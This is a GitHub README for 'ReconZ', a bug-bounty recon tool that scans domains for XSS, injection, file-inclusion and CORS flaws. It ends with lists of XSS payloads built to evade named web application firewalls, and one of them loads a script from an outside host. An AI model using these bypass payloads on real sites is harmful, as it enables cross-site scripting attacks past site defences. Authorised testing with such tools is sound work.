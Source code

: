 Bug bounty automatization code to search for: 𝐚𝐥𝐢𝐯𝐞 𝐬𝐮𝐛𝐝𝐨𝐦𝐚𝐢𝐧𝐬, 𝐎𝐩𝐞𝐧𝐫𝐞𝐝𝐢𝐫𝐞𝐜𝐭, 𝐇𝐨𝐬𝐭 𝐇𝐞𝐚𝐝𝐞𝐫 𝐈𝐧𝐞𝐜𝐭𝐢𝐨𝐧, 𝐂𝐨𝐫𝐬 𝐄𝐱𝐩𝐥𝐨𝐢𝐭𝐬, 𝐩𝐚𝐫𝐚𝐦𝐞𝐭𝐞𝐫𝐬 𝐨𝐧 𝐚𝐥𝐥 𝐬𝐮𝐛𝐝𝐨𝐦𝐚𝐢𝐧𝐬, 𝐂𝐫𝐨𝐬𝐬 𝐒𝐢𝐭𝐞 𝐒𝐜𝐫𝐢𝐩𝐭𝐢𝐧𝐠, 𝐑𝐞𝐦𝐨𝐭𝐞 𝐅𝐢𝐥𝐞 𝐈𝐧𝐜𝐥𝐮𝐬𝐢𝐨𝐧, 𝐋𝐨𝐜𝐚𝐥 𝐅𝐢𝐥𝐞 𝐈𝐧𝐜𝐥𝐮𝐬𝐢𝐨𝐧, 𝐒𝐐𝐋 𝐈𝐧𝐣𝐞𝐜𝐭𝐢𝐨𝐧 (𝐌𝐚𝐧𝐲 𝐦𝐨𝐫𝐞 𝐬𝐨𝐨𝐧)

# INSTALLATION

```bash

git clone https://github.com/Anhedoniczz/ReconZ

cd Reconz

chmod +x *.sh
chmod +x Resources/*.sh
./installer.sh

```
# USAGE 

```
usage: ./recon.sh -u domain                     
```


# EXAMPLE
```
./recon.sh -u example.com
```


# FOR ADVANCED XSS 
The tool uses a basic XSS payload to exploit the websites. If you want to do something more advanced, like bypass waf, or use any other payload, you can change line 58.
Some payloads to bypass specific wafs: 


# Paylaods to bypass Cloudflare waf 
```
<svg/onload=window["al"+"ert"]1337>

<Img Src=OnXSS OnError=confirm(1337)>

<Svg Only=1 OnLoad=confirm(document.domain)>

<svg onload=alert&#0000000040document.cookie)>

<sVG/oNLY%3d1/**/On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>

%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E

```

# Paylaods to bypass Akamai waf 
```
';k='e'%0Atop['al'+k+'rt'](1)//

'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>

```

# Paylaods to bypass Cloudfront waf 
```
">'><details/open/ontoggle=confirm('XSS')>

6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/

';window/*aabb*/['al'%2b'ert'](document./*aabb*/location);//

">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(cloudfrontbypass)//'>

```

# Paylaods to bypass MOD SECURITY waf 
```
<svg onload='new Function["Y000!"].find(al\u0065rt)'>
```

# Paylaods to bypass Imperva waf 
```
<Img Src=//X55.is OnLoad%0C=import(Src)>

<sVg OnPointerEnter="location=javas+cript:ale+rt%2+81%2+9;//</div">
```

XSS Payloads are from Lostsec Channel <3
You can check the waf type using wappalyzer and replace xss payloads based on that.


Creds to authors of used tools:

https://github.com/gotr00t0day

https://github.com/projectdiscovery/

https://github.com/felipemelchior

https://github.com/s0md3v/Corsy

https://github.com/lc/

https://github.com/tomnomnom/

https://github.com/rix4uni
